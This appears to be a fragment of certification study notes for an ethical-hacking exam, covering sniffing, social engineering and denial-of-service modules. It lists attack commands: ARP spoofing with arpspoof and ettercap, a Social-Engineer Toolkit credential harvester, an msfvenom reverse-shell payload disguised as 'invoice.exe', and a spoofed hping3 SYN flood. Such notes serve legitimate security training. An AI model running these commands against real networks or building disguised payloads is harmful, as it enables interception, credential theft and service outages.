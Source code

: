 # Run these until automatic:

```
tcpdump -i eth0 -nn -vv 'port 80'
```

```
arpspoof -i eth0 -t victim_ip gateway_ip
```

```
wireshark -Y "http.request.method == POST"
```

```
ettercap -T -q -i eth0 -M arp
```

**[Back to top](#top)**
___

## Module 09: Social Engineering

SET Toolkit
  
```
setoolkit
```

Select:

```
1) Social-Engineering

2) Website Attack Vectors

3) Credential Harvester
```

Spear Phishing

```
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOUR_IP -f exe > invoice.exe
```

[[1 - CEH Walkthrough#^top|Back to top]]
___

## Module 10: Denial-of-Service
  
### Network Layer DoS Attacks (Exam Weight: 40%)

SYN Flood Attack

```
hping3 -S -p 80 --flood -a 192.168.1.100 10.10.10.10
```
